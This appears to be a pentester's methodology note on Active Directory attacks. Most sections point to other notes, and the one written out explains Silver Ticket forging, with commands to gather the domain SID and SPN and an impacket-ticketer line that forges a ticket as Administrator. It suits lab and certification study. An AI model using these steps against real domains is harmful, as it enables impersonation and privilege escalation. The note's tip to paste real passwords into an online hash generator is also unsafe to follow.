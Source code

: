 ## AD Attacks
Ensure you have the correct DOMAIN before proceeding...

#### AS-REP Roasting

See [[AS-REP Roasting]]

#### Kerberoasting

See [[Methodology/Active Directory/Kerberoasting|Kerberoasting]]
#### ADCS
See [[ADCS Attacks]]

#### ACL Attacks
See [[ACL Abuse]]

Group Priv Abuse (passwd change) / GenericAll -> Moved to ACL Abuse
GenericWrite - > Moved to ACL Abuse
DCSync (Dumping) -> ACL Abuse
#### Silver Tickets
Used for impersonating a LOCAL service (as opposed to golden tickets which are domain-wide)
	when we forge a ticket, we spoof ANY user (even fake accounts) for a particular service
		ie: svc_mssql as Administrator, we will be able to use xp_cmdshell (because of svc_mssql rights)
		we will still have to privesc further most likely by the end of this

Use case: 
	We have a foothold and the NTLM password hash of a service account (or cleartext password) but we cant directly authenticate as them

Benefits:
	No need to authenticate with a silver ticket to the DC
	Less risk of detection

Requirements:
	Domain SID
	Target SPN of compromised service account
	SPN Password Hash
	a user to impersonate (Administrator)


Forging a Silver Ticket
```bash
1. Fetching requirements
# Domain SID
Get-ADDomain

# Target SPN
Get-ADUser -Filter {SamAccountName -eq "<svc_account_name>"} -Properties ServicePrincipalNames

# SPN Password Hash (NTLM)
https://codebeautify.org/ntlm-hash-generator
if you have the cleartext password, just go to an online NTLM hash generator and convert it
if already an NTLM hash, good to go


2. Forging the Silver Ticket
# From Attack Box:
impacket-ticketer -nthash <NTLM_hash> -domain-sid "<sid>" -domain <domain> -spn <SPN(NO CURLY BRACES)> Administrator
	# ticket will save in "Administrator.ccache" or similar
	ls                                        # to see where it was saved
	klist                                     # to verify in cache
	export KRB5CCNAME=$PWD/<ccache_name>      # adding ccache to env
	klist                                     # verify again

or
```